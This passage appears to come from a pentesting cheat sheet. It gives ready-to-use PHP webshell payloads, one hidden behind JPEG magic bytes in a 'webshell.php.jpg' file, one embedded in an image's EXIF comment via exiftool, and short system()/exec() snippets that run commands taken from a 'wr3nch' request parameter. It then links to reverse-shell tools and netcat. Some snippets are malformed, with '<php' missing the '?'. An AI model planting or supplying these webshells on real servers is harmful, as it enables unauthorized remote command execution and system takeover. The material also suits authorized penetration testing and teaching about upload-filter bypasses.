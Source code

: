 #### Magic Bytes reverse shell <a name='image'></a>
```bash
# Using magic bytes
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
echo '<?=`$_GET[wr3nch]`?>' >> webshell.php.jpg

# Using exiftool
exiftool -comment='<?php system($_GET['wr3nch']);?>' \<file_name\>.\<extension\>

# normal php executables
<php echo exec('whoami');?>
<php system("whoami"); ?>
<php system($_REQUEST['wr3nch']); #	works with the post verb
<php system($_GET['wr3nch']); >

```

##### References:
- The reverse shells are composed in a place taken from [here](https://krober.biz/misc/reverse_shell)
- Some points are reffered form [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- Php reverse shell bt [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)

---

- ## [reverse-shell](https://github.com/lukechilds/reverse-shell) - Reverse Shell as a Service
  > Easy to remember reverse shell that should work on most Unix-like systems. <br>
  > Detects available software on the target and runs an appropriate payload.
  > ![](https://camo.githubusercontent.com/9ffdee4663ef22d343ebc88325a3f504e585669679942758485b215b1d7caa09/68747470733a2f2f692e696d6775722e636f6d2f71716a687841772e676966)

- ## [netcat](https://github.com/diegocr/netcat) NetCat for Windows
  - Netcat for NT is the tcp/ip "Swiss Army knife" that never made it into any of the resource kits.  
  - It has proved to be an extremely versatile tool on the unix platform. 
  - So why should NT always be unix's poor cousin when it comes to tcp/ip testing and exploration?  
  - I bet many NT admins out there keep a unix box around to use tools such as Netcat or to test their systems
  - with the unix version of an NT vulnerability exploit.
  - With Netcat for NT part of that feeling disempowerment is over.

- ## [rlwrap](https://github.com/hanslub42/rlwrap)

- ## [reverse-shell](https://github.com/medpaf/reverse-shell) Simple reverse shell written in Python.
  > ### This is a reverse shell written in Python used to to target a machine and gain remote shell access.
  > ![image](https://user-images.githubusercontent.com/51442719/174809460-6991dd33-eb8b-4341-9f65-1bdf6e180eec.png)
 
